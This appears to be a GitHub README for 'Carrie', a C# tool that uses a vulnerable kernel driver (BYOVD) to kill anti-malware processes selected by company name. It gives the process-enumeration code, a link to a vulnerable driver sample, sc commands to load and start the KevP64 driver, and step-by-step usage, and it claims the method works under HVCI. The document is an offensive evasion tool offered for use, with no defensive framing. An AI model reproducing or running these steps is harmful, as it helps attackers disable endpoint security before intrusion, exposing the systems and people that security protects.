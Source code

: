 # Carrie
C# Anti-Malware Multi-Process Killer (BYOVD)

![image](https://github.com/ph4nt0mbyt3/Carrie/assets/137841478/254bba01-6cc3-4981-af94-d2cd3c336af8)





This code is designed to kill multiple process based on Company Name of the processes, and can be changed to use Description instead.

```
 static List<uint> GetProcessIdsByCompanyName(string companyName)
    {
        var processIds = new List<uint>();
        var processes = Process.GetProcesses();
        foreach (var process in processes)
        {
            try
            {
                var processModule = process.MainModule;                   
                if (processModule != null && processModule.FileVersionInfo.CompanyName == companyName)   #You can easy adapt this.
                {
                    processIds.Add((uint)process.Id);
                }
            }
            catch (Exception)
            {

            }
        }
        return processIds;
    }
```

Sample of vulnerable driver: https://www.loldrivers.io/drivers/73196456-40ae-4b6d-8562-07cf99458a7d

Works with HVCI enabled: HVCI is designed to ensure the integrity of code executed in the kernel, but it cannot protect against all possible vulnerabilities or actions that can be performed through drivers or system interfaces.

# Steps

1) Load and start the KevP64 Driver
```
sc create KevP64 binPath="c:\path\to\driver.sys" type= kernel start= demand
sc start KevP64
```

2) Start Carrie
```
Carrie.exe
```

3) Type the CompanyName propertie of the process owner or description until you receive the message "Can't find any process related, try again". This means that all processes belonging to the provided CompanyName/Description are no longer running. 
